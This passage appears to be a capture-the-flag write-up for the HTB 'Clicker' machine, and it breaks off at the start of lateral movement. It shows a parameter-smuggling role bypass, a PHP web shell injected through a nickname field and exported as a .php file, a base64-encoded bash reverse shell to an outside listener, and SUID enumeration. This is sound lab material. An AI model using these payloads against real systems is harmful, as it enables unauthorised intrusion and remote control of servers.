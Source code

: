 The previous code will iterate through all the URL parameters saving them in the database with the exception of a parameter exactly called `role`, to surpass this restriction in order to modify our role we can perform a CRLF to trick the code that performs the check into thinking there isn't a field called role even if it is, to do so we go to burpsuite as we need to modify the save request before it reaches the server, we intercept the saving game request and modify the url like `GET /save_game.php?clicks=3&level=0&role%0a=Admin`. After login out and login back in we get access to the admin panel.

Now in the admin panel we have the ranking, which can be saved as file, we try to do this and once the file is saved it can be accessed as a URL like `/exports/top_players_a94nj1ze.txt`, we can potentially exploit this so we repeat it and intercept the request inside the we see this `threshold=1000000&extension=txt`, we can modify the extension of the file as we wish so we save it as PHP.

Now we are able to run PHP code but first we need to inject the malicious code, so we check all the available fields to inject it, inside the files there are 3 fields nickname, clicks and level. If we check `authentication.php` we find there is a field called nickname, so as done before we can use the save game request to modify the data about our user so we modify our nickname to run commands
We repeat the previous process to save game modifying the request so the new URL is `GET /save_game.php?clicks=3&level=0&nickname=<?php+system($_GET['cmd']);?>`.
```
Nickname: <?php system($_GET['cmd']);?> Clicks: 3 Level: 0
Nickname: admin Clicks: 999999999999999999 Level: 999999999
Nickname: ButtonLover99 Clicks: 10000000 Level: 100
Nickname: Paol Clicks: 2776354 Level: 75
Nickname: Th3Br0 Clicks: 87947322 Level: 1
```
Now if we save again the ranking but modifying the request so its PHP and we go to the new tab with http://clicker.htb/exports/top_players_hfxvps48.php?cmd=id, we are finally able to run commands

|Nickname|Clicks|Level|
|---|---|---|
|uid=33(www-data) gid=33(www-data) groups=33(www-data)|3|0|
|admin|999999999999999999|999999999|
|ButtonLover99|10000000|100|
|Paol|2776354|75|
|Th3Br0|87947322|1|

The next step is to get a reverse shell, to do so we encode the command in base 64 with `echo 'bash -c bash -i >&/dev/tcp/10.10.14.60/4444 0>&1' | base64`, after encoding it looks like `YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNjAvNDQ0NCAwPiYxCg==`
The whole command we need to run to get the reverse shell is `echo "YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNjAvNDQ0NCAwPiYxCg=="|base64 -d|bash;`
Before executing it in the web server we open the local listener `nc -lvnp 4444`, once set we enter the following URL to start the shell `http://clicker.htb/exports/top_players_959ywzep.php?cmd=echo "YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNjAvNDQ0NCAwPiYxCg=="|base64 -d|bash;`

The first step in the shell is upgrade it with  `python3 -c 'import pty;pty.spawn("/bin/bash")'`
### Lateral movement
As we are a service user, we now need to become a normal user, there is one called `jack`
We search for any euid commads with `find / -perm -4000 2>/dev/null`
```
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/fusermount3
/usr/bin/su
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/mount
/usr/lib/openssh/ssh-keysign
```